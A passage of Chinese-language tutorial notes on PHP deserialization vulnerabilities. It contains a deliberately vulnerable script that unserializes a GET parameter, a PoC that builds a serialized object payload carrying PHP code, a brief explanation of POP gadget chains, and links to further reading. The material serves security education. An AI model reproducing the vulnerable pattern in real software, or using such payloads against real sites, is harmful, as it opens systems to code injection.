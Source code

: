	    }
	}
	$b = $_GET['id'];
	print_r($b);
	echo "</br>";
	$d = unserialize($b);
	
	require "shell.php";
	
	?>

构造`POC`，生成`payload`。

	<?php
	class secnote {
	    var $a = 'test';
	   
	}
	$b = new secnote();
	$b->a = "<?php phpinfo(); ?>";
	$b_ser = serialize($b);
	print_r($b_ser);
	?>

序列化的结果

	O:7:"secnote":1:{s:1:"a";s:19:"<?php phpinfo(); ?>";}

利用

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-12/99020558.jpg)

其他的利用方法，有时候在`__wakeup()`或者析构函数中不存在漏洞，但是它又调用了其他的对象，向上溯源，利用一次次的`gadget`找到漏洞点。

>Makes use of POP (Property-oriented Programming) chains
Similar to ROP; reuse existing code (POP gadgets)

##### 序列化文章

[最通俗易懂的PHP反序列化分析](http://www.notyeat.com/2018/03/26/php-unserialize/)

[浅谈php反序列化漏洞](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

[PHP反序列化漏洞](https://www.anquanke.com/post/id/86452)

[神奇的php反序列化](https://www.anquanke.com/post/id/84705)

[PHP反序列化漏洞成因及漏洞挖掘技巧与案例](https://www.anquanke.com/post/id/84922)

[SugarCRM v6.5.23 PHP反序列化对象注入漏洞分析](https://paper.seebug.org/39/)


[PHP反序列化漏洞详细教程及实例（上）](https://zhuanlan.zhihu.com/p/32553774)

[PHP反序列化漏洞详细教程及实例（下） Typecho 反序列化漏洞分析](https://zhuanlan.zhihu.com/p/32601669)

[由Typecho 深入理解PHP反序列化漏洞](https://zhuanlan.zhihu.com/p/33426188)

[ROP 面向返回编程](https://zh.wikipedia.org/wiki/%E8%BF%94%E5%9B%9E%E5%AF%BC%E5%90%91%E7%BC%96%E7%A8%8B)
